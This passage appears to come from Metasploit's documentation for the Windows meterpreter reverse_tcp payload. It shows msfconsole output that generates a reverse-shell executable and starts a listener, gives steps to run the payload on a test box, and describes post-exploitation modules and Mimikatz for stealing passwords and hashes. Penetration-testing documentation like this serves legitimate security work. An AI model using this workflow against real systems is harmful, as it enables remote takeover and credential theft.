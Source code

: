 ```
$ ./msfconsole -q -r scripts/resource/auto_win32_multihandler.rc
[*] Processing scripts/resource/auto_win32_multihandler.rc for ERB directives.
[*] resource (scripts/resource/auto_win32_multihandler.rc)> Ruby Code (776 bytes)
lhost => 192.168.1.199
lport => 4444
[*] Writing 73802 bytes to /Users/metasploit/.msf4/local/meterpreter_reverse_tcp.exe...
[*] windows/meterpreter/reverse_tcp's LHOST=192.168.1.199, LPORT=4444
[*] windows/meterpreter/reverse_tcp is at /Users/metasploit/.msf4/local/meterpreter_reverse_tcp.exe
payload => windows/meterpreter/reverse_tcp
lhost => 192.168.1.199
lport => 4444
exitonsession => false
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] Starting the payload handler...
msf exploit(handler) >
```

Next, go to your `~/.msf4/local` directory, you should see
`meterpreter_reverse_tcp.exe` in there.  Upload that payload to your test
box and execute it. You should receive a connection.

**Using a Post Module**

One of the best things about Meterpreter is you have access to a variety
of post exploitation modules, specifically for the multi and Windows
categories. Post modules provide you with more capabilities to collect
data from the remote machine automatically. For example, you can steal
passwords from popular applications and enumerate or modify system
settings.

To use a post module from the Meterpreter prompt, simply use the `run`
command:

```
meterpreter > run post/windows/gather/checkvm

[*] Checking if WIN-6NH0Q8CJQVM is a Virtual Machine .....
[*] This is a VMware Virtual Machine
meterpreter >
```

It is also possible to run a post module via multiple Meterpreter
sessions. To learn how, load the specific post module you wish to run,
and enter `info -d` to see the basic usage in the documentation.


**Using the Mimikatz Extension**

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a well known tool
to extract passwords, hashes, PIN code, and kerberos tickets from memory
on Windows. This might actually be the first thing you want to use as
soon as you get a high-privileged session, such as SYSTEM.


[railgun]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation
